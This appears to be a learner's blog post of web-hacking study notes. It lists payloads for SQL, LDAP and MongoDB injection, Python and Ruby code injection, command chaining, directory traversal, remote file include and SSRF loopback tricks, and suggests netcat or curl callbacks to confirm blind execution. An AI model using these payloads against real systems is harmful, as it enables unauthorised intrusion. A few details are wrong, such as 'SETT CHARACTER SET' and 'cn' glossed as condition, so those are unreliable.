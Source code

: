 ```yaml
---
title: Essentials
layout: post
---
```


## Comment
`%00` would be good to also think about
php: `//` `#` `/**/` ; string concatenation: `'string1'.'string2'`
sql: `--` `#`

## SQL
By default SQL will ignore trailing spaces. Also SQL is not case sensitive.
i.e. "Admin " and "admin" are the same

## Server Response
If the response code is `3xx`(redirection) or `201`(created), and the `Location` response header exists, the page is redirected to where the `Location` header specifies.

## file format
There might be useful information in json or js format. It can be accessed via formatting the `accept` header or by messing with the url.

## Mass-Assignment
adding attributes to submitting data. e.g. `user[admin]=true`
Let's say there is an attribute like 'organisation'. Ids might be assigned rather than the string of the name of the organization, i.e. `organisation_id`.

## Remote Code Execution / Code Injection
Null byte(`NULL %00`) injection could be to control the string to owns liking.

### php
Since PHP 5.3.4, paths with null in them are considered invalid.
`phpinfo()` is a great function to use to confirm penetration.


### Ruby
참고:https://stackoverflow.com/questions/6338908/ruby-difference-between-exec-system-and-x-or-backticks
In ruby, backticks can be used for code injection e.g. \`uname\`

Ruby comments are #.
One thing to note is, in url, + are just another way of expressing space.
To write + in html url, you must write the hexidecimal version of it which is `%2b`

### Python
`os.system()` or   `os.popen().read()` can be used.
#### importing
`__import__('os').system('ls')` or `__import__('os').popen('ls').read()`
https://stackoverflow.com/questions/28231738/import-vs-import-vs-importlib-import-module

#### bypassing restrictions for inserting certain characters directly
Indirectly pass strings on by encoding the string in something like *base64* and decode the thing within the code injection.
e.g. `__import__('base64').b64decode(LOCALLY_INCODED_STRING)`

## Command Execution
Just as a reminder
- command1 && command2 that will run command2 if command1 succeeds.
- command1 || command2 that will run command2 if command1 fails.
- command1 ; command2 that will run command1 then command2.
- command1 | command2 that will run command1 and send the output of command1 to command2.; *referred to as pipelining*

If there are situations in which the output is only put onto the standard output which you do not have access to, connect to your device using **netcat, curl, ping, etc..** to confirm penetration. (On an unrelated note, god the world *penetration* gives off this weird vibe and I hate it lol)

***In the command line, commands within backticks(`) are executed first, and then the main command is run***
***$([COMMAND]) is the more modern method. It is recommended over backticks because backticks are easy to confuse it with single quotes***

## Directory Traversal
The directory `/etc/../../../../../../` is the same as `/` because the excess `../` does not matter and will be disregarded automatically.


## File Include
### php
Include function can include outside files from the http protocol. e.g. http://[URL]/?include=http://[SERVER IP]

### Possible Security Measures
1. The prefix could limited to enusre no file traverse.

## LDAP (Lightweight Directory Access Protocol)
Some LDAP servers approve NULL bind entry.

Filters are used to sort out data.
※ `cn` = condition
- OR: `(|(cn=[INPUT1])(cn=[INPUT2]))`
- AND: `(&(cn=[INPUT1])(cn=[INPUT2]))`

A filter used for logging users in could look like the following.
`(&(cn=[INPUT1])(userPassword=HASH[INPUT2]))`

Injection can be done by the following methods:
1. `%00` (NULL) injection


## MongoDB
MongoDB stores data in json files.
`|| 1==1` is the MongoDB equivalent of `1=1`
this.[attribute].match([regex]) to see if certain attribute matches your set condition. e.g.`admin' && this.password.match([regex])`

## SQL Injection
`SELECT * FROM [table] WHERE username=[username] AND password =[password];`
`/login.php?username=admin' or 1=1 -- ` or `/login.php?username=admin' -- `

Possible security measures.
1. Check if the number of content returned is 1. -> use `LIMIT`
2. Restricts spaces (NO SPACE) -> use `\t` in the place of spaces
3. Restricts spaces AND tabs -> use `#`

### Character encding(charset) inconsistencies
`%bf%27`, if not having the correct charset, could be interpreted as `¿` and a `'`. This is due to the database not having the charset necessary.
This exploitation can be prevented by a simple `SETT CHARACTER SET 'GBK';`

## SSRF (Server Side Request Forgery)
### different ways of loopback
1. `localhost` 
2. `127.0.0.1`
> IPv4 network standards reserve the entire 127.0.0.0/8 address block for loopback purposes.
So basically, `127.0.0.1 ~ 127.255.255.254` are all reserved for loopback.
3. `127.1`
4. `017700000001`: I get 177 is the octal version of 127, but what I don't get is why there are that many 0s between 177 and 1.
5. `0177.0.0.01`: octal version
6. Set your domain to point to `127.0.0.1`: it is possible that the admin set up so that a page redirects using url and that url is restricted only by the prefix. If so, you can set up your own domain, make a subdomain with the prefix that the admin forces, and make that domain point to `home` with the ip above. e.g. `127.0.0.1`
For more ways to express ip addresses: https://www.hacksparrow.com/networking/many-faces-of-ip-address.html

## Questions
1. https://ptl-c04f30b2-0d3cba74.libcurl.so/hello/hacker%22%2bstr(exec('import%20os'))%2bstr(os.popen('ls').read())%2b%22 why doens't this url work?
2. weirdly enough, in sql injection, there needs to be a space after `--` for the code to work. i.e. `-- `. Why is that?
3. `017700000001`: I get 177 is the octal version of 127, but what I don't get is why there are that many 0s between 177 and 1.

## Things that might be worth studying
1. Character encoding; code injection
